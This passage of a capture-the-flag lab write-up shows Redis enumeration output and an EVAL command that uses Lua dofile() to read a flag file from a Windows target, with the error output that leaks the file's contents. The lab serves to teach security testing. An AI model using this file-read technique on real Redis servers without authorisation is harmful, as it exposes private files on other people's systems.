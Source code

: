 ```
sync_partial_err:0
expired_keys:0
evicted_keys:0
keyspace_hits:0
keyspace_misses:0
pubsub_channels:0
pubsub_patterns:0
latest_fork_usec:0

# Replication
role:master
connected_slaves:0
master_repl_offset:0
repl_backlog_active:0
repl_backlog_size:1048576
repl_backlog_first_byte_offset:0
repl_backlog_histlen:0

# CPU
used_cpu_sys:0.33
used_cpu_user:0.09
used_cpu_sys_children:0.00
used_cpu_user_children:0.00

# Keyspace

```

- **Note 4:** For saving Article Size I Will leave only the wanted Information `CONFIG GET dir ` this what we need but Do this and read all configration `CONFIG GET *` the directory inforation will be in line `104`

+ ## root@kali:~/thm/vulnNet:active# 10.10.214.82:6379> CONFIG GET dir
## `"C:\\Users\\enterprise-security\\Downloads\\Redis-x64-2.8.2402"`

- **Note 5:** Now we have 2 Important informations we know the first username and where's Redis 

- **Note 6:** At this point thinking outside the box with researching you gonna find that Redis can execute sandboxed Lua scripts through the “EVAL” command. dofile() is a command that can be used to enumerate files and directories. dofile() is allowed by the sandbox in older Redis versions.

## Getting First Flag  :

- root@kali:~/thm/vulnNet:active# redis-cli -h 10.10.214.82 EVAL "dofile('C:\\\Users\\\enterprise-security\\\Desktop\\\user.txt')" 0 
>error) ERR Error running script (call to f_ce5d85ea1418770097e56c1b605053114cc3ff2e): @user_script:1: C:\Users\enterprise-security\Desktop\user.txt:1: malformed number near 'I'm the Flag 😂️' 

> >![](/img/02/01.png)
